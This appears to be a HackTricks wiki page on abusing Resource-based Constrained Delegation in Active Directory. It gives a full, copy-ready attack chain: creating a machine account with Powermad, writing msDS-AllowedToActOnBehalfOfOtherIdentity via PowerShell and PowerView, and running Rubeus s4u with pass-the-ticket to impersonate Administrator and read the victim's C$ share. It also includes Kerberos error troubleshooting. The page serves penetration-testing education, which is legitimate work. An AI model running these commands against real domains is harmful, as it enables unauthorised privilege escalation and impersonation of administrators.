 # Resource-based Constrained Delegation

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Basics of Resource-based Constrained Delegation

This is similar to the basic [Constrained Delegation](constrained-delegation.md) but **instead** of giving permissions to an **object** to **impersonate any user against a service**. Resource-based Constrain Delegation **sets** in **the object who is able to impersonate any user against it**.

In this case, the constrained object will have an attribute called _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ with the name of the user that can impersonate any other user against it.

Another important difference from this Constrained Delegation to the other delegations is that any user with **write permissions over a machine account** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) can set the _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (In the other forms of Delegation you needed domain admin privs).

### New Concepts

Back in Constrained Delegation it was told that the **`TrustedToAuthForDelegation`** flag inside the _userAccountControl_ value of the user is needed to perform a **S4U2Self.** But that's not completely truth.\
The reality is that even without that value, you can perform a **S4U2Self** against any user if you are a **service** (have a SPN) but, if you **have `TrustedToAuthForDelegation`** the returned TGS will be **Forwardable** and if you **don't have** that flag the returned TGS **won't** be **Forwardable**.

However, if the **TGS** used in **S4U2Proxy** is **NOT Forwardable** trying to abuse a **basic Constrain Delegation** it **won't work**. But if you are trying to exploit a **Resource-Based constrain delegation, it will work** (this is not a vulnerability, it's a feature, apparently).

### Attack structure

> If you have **write equivalent privileges** over a **Computer** account you can obtain **privileged access** in that machine.

Suppose that the attacker has already **write equivalent privileges over the victim computer**.

1. The attacker **compromises** an account that has a **SPN** or **creates one** (“Service A”). Note that **any** _Admin User_ without any other special privilege can **create** up until 10 **Computer objects (**_**MachineAccountQuota**_**)** and set them a **SPN**. So the attacker can just create a Computer object and set a SPN.
2. The attacker **abuses its WRITE privilege** over the victim computer (ServiceB) to configure **resource-based constrained delegation to allow ServiceA to impersonate any user** against that victim computer (ServiceB).
3. The attacker uses Rubeus to perform a **full S4U attack** (S4U2Self and S4U2Proxy) from Service A to Service B for a user **with privileged access to Service B**.
   1. S4U2Self (from the SPN compromised/created account): Ask for a **TGS of Administrator to me** (Not Forwardable).
   2. S4U2Proxy: Use the **not Forwardable TGS** of the step before to ask for a **TGS** from **Administrator** to the **victim host**.
   3. Even if you are using a not Forwardable TGS, as you are exploiting Resource-based constrained delegation, it will work.
4. The attacker can **pass-the-ticket** and **impersonate** the user to gain **access to the victim ServiceB**.

To check the _**MachineAccountQuota**_ of the domain you can use:

```
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```

## Attack

### Creating a Computer Object

You can create a computer object inside the domain using [powermad](https://github.com/Kevin-Robertson/Powermad)**:**

```csharp
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/b1.png)

```bash
Get-DomainComputer SERVICEA #Check if created if you have powerview
```

### Configuring R**esource-based Constrained Delegation**

**Using activedirectory PowerShell module**

```bash
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```

![](../../.gitbook/assets/B2.png)

**Using powerview**

```bash
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```

### Performing a complete S4U attack

First of all, we created the new Computer object with the password `123456`, so we need the hash of that password:

```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```

This will print the RC4 and AES hashes for that account.\
Now, the attack can be performed:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```

You can generate more tickets just asking once using the `/altservice` param of Rubeus:

```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```

{% hint style="danger" %}
Note that users has an attribute called "**Cannot be delegated**". If a user has this attribute to True, you won't be able to impersonate him . This property can be seen inside bloodhound.
{% endhint %}

![](../../.gitbook/assets/B3.png)

### Accessing

The last command line will perform the **complete S4U attack and will inject the TGS** from Administrator to the victim host in **memory**.\
In this example it was requested a TGS for the **CIFS** service from Administrator, so you will be able to access **C$**:

```bash
ls \\victim.domain.local\C$
```

![](../../.gitbook/assets/b4.png)

### Abuse different service tickets

Lear about the [**available service tickets here**](silver-ticket.md#available-services).

## Kerberos Errors

* **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash (or just supply it the rc4, aes128 and aes256 hashes). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
* **`preauth_failed`**: This means that the given username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: This may mean:
  * The user you are trying to impersonate cannot access the desired service (because you cannot impersonate it or because it doesn't have enough privileges)
  * The asked service doesn't exist (if you ask for a ticket for winrm but winrm isn't running)
  * The fakecomputer created has lost it's privileges over the vulnerable server and you need to given them back.

## References

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<details>

<summary><strong><a href="https://www.twitch.tv/hacktricks_live/schedule">🎙️ HackTricks LIVE Twitch</a> Wednesdays 5.30pm (UTC) 🎙️ - <a href="https://www.youtube.com/@hacktricks_LIVE">🎥 Youtube 🎥</a></strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
